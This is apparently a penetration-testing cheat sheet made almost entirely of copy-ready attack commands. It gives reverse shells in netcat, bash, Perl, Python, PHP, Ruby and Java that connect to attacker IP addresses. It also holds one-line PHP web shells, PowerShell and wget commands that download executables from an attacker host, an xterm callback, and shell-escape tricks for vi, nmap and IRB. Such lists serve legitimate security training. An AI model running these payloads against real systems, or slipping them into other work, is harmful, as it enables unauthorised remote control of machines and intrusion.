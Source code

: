 
# netcat
```nc -e /bin/sh 10.11.0.130 443```

# Simple bash revshell
```bash -i >& /dev/tcp/10.11.0.130/443 0>&1```

# Bash FIFO
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.130 443 >/tmp/f```

# Perl
```
perl -e 'use Socket;$i="10.11.0.130";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# PHP
```php -r '$sock=fsockopen("10.11.0.185",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

# Ruby
```ruby -rsocket -e'f=TCPSocket.open("10.11.0.185",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d2>&%d",f,f,f)'```

# PHP WebShell 
```<?php echo shell_exec($_GET['cmd']);?>```

```<?php system($_GET['cmd']);?>```

# JAVA
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line
2>&5 >&5; done"] as String[])
p.waitFor()
```

https://highon.coffee/blog/reverse-shell-cheat-sheet/

* * * 

# Powershell
#### Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe","C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

```Wget/fetch```

```Wget http://10.11.0.130/test.txt -o C:\temp\test.txt```

# xterm
"One of the simplest forms of reverse shell is an xterm session. 
The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001:

```xterm -display 10.0.0.1:1```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). 

One way to do this is with Xnest (to be run on your system):

```Xnest :1```

You’ll need to authorise the target to connect to you (command also run on your host):

```xhost +targetip```

* * * 

# Shell Escape; from Shellcatraz
```
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

/bin/sh -i

perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')
(From within IRB)

exec "/bin/sh"
(From within vi)

:!bash
(From within vi)

:set shell=/bin/bash:shell
(From within nmap)

!sh
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
